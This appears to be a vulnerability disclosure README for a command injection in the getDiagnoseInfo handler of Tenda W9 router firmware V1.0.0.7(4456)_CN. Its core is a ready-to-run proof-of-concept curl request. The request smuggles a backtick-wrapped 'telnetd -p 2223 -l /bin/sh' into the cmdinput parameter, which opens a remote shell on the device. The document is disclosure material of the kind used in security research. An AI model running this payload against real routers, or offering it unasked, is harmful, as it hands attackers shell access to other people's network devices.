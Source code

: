 # Tenda W9 Command Injection

**Vender** ：Tenda

**Firmware version**:V1.0.0.7(4456)_CN

**Exploit Author**: GD@hillstone

**Vendor Homepage**: https://www.tenda.com.cn/



## POC

An issue was discovered in Tenda W9 V1.0.0.7(4456)_CN devices. An HTTP request parameter is used in command string construction within the handler function of the formGetDiagnoseInfo route. This could lead to Command Injection via Shell Metacharacters.

![1](./1.jpg)

![2](./2.jpg)



When we send packets, the router will be shell

```
curl -i -X POST http://192.168.0.254/goform/getDiagnoseInfo -d cmdinput='ping+`telnetd -p 2223 -l /bin/sh`' --referer "Referer: http://192.168.0.254/system_checktool.asp" --cookie "w9v1_user=admin"

```





![poc](./poc.jpg)

